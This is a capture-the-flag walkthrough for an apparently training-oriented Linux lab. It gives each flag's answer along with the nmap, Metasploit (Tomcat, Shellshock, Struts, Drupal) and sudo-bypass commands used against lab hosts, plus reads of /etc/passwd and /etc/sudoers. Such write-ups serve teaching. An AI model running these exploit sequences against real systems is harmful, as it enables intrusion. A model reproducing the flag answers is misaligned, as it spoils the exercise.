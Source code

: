 with `docker inspect --format='{{range .NetworkSettings.Networks}}{{.IPAddress}}{{end}} {{.Name}}' $(docker ps -aq)` got the IP addresses 
```
192.168.13.12 /container_3
192.168.13.10 /container_1
192.168.13.14 /container_5
192.168.13.11 /container_2
192.168.13.13 /container_4
```

this gives us hostname
`docker inspect --format='{{.Config.Hostname}} {{.Name}}' $(docker ps -aq)`


```markdown
# Linux CTF Challenge: Flag Solutions and Methods

## Initial Enumeration Commands
```bash
# Get Docker container IPs and names
docker inspect --format='{{range .NetworkSettings.Networks}}{{.IPAddress}}{{end}} {{.Name}}' $(docker ps -aq)

# Results:
192.168.13.12 /container_3
192.168.13.10 /container_1
192.168.13.14 /container_5
192.168.13.11 /container_2
192.168.13.13 /container_4

# Get Docker container hostnames
docker inspect --format='{{.Config.Hostname}} {{.Name}}' $(docker ps -aq)
```

## OSINT Flags (1-3)

### Flag 1: `h8s692hskasd`
- **Location**: centralops.net/DomainDossier
- **Vulnerability**: OSINT - Exposed WHOIS Data
- **Method**: 
  1. Visit https://centralops.net/co/DomainDossier.aspx
  2. Search for `totalrekall.xyz`
  3. Find flag in Registrant Street field

### Flag 2: `34.102.136.180`
- **Method**: 
  ```bash
  ping totalrekall.xyz
  ```

### Flag 3: `s7euwehd`
- **Location**: crt.sh
- **Vulnerability**: OSINT - SSL Certificate Data
- **Method**: 
  1. Visit crt.sh
  2. Search for `totalrekall.xyz`
  3. Find subdomain `s7euwehd.totalrekall.xyz`

## Network Scanning Flags (4-6)

### Flag 4: `5`
- **Method**: Network enumeration
  ```bash
  nmap 192.168.13.0/24
  ```
- **Answer**: 5 hosts (excluding scanner)

### Flag 5: `192.168.13.13`
- **Method**: Aggressive scan
  ```bash
  nmap -A 192.168.13.0/24
  ```
- **Answer**: Host running Drupal

### Flag 6: `97610`
- **Method**: 
  1. Run Nessus scan on 192.168.13.12
  2. Find critical Apache Struts vulnerability
  3. Note vulnerability ID (97610)

## Exploitation Flags (7-12)

### Flag 7: `8ks6sbhss`
- **Location**: 192.168.13.10
- **Vulnerability**: Apache Tomcat RCE (CVE-2017-12617)
- **Method**:
  ```bash
  msfconsole
  search tomcat_jsp
  use multi/http/tomcat_jsp_upload_bypass
  set RHOST 192.168.13.10
  exploit
  shell
  cat /root/.flag7.txt
  ```

### Flag 8: `9dnx5shdf5`
- **Location**: 192.168.13.11
- **Vulnerability**: Shellshock
- **Method**:
  ```bash
  msfconsole
  use exploit/multi/http/apache_mod_cgi_bash_env_exec
  set TARGETURI /cgi-bin/shockme.cgi
  set RHOST 192.168.13.11
  exploit
  cat /etc/sudoers
  ```

### Flag 9: `wudks8f7sd`
- **Location**: 192.168.13.11
- **Method**: 
  ```bash
  cat /etc/passwd
  ```

### Flag 10: `wjasdufsdkg`
- **Location**: 192.168.13.12
- **Vulnerability**: Apache Struts (CVE-2017-5638)
- **Method**:
  ```bash
  msfconsole
  use multi/http/struts2_content_type_ognl
  set RHOSTS 192.168.13.12
  exploit
  sessions -i <session_number>
  download /root/flagisinThisfile.7z
  7z x flagisinThisfile.7z
  cat flag.txt
  ```

### Flag 11: `www-data`
- **Location**: 192.168.13.13
- **Vulnerability**: Drupal (CVE-2019-6340)
- **Method**:
  ```bash
  msfconsole
  use unix/webapp/drupal_restws_unserialize
  set RHOSTS 192.168.13.13
  exploit
  getuid
  ```

### Flag 12: `d7sdfksdf384`
- **Location**: 192.168.13.14
- **Vulnerability**: Sudo Bypass (CVE-2019-14287)
- **Method**:
  ```bash
  ssh alice@192.168.13.14  # password: alice
  sudo -u#-1 cat /root/flag12.txt
  ```

## Summary of Vulnerabilities
1. OSINT Data Exposure
2. Network Service Misconfiguration
3. Apache Tomcat RCE
4. Shellshock
5. Apache Struts RCE
6. Drupal RCE
7. Sudo Bypass

## Tools Used
- Network Scanning: `nmap`, Nessus
- OSINT: centralops.net, crt.sh
- Exploitation: Metasploit Framework
- Post-Exploitation: SSH, sudo
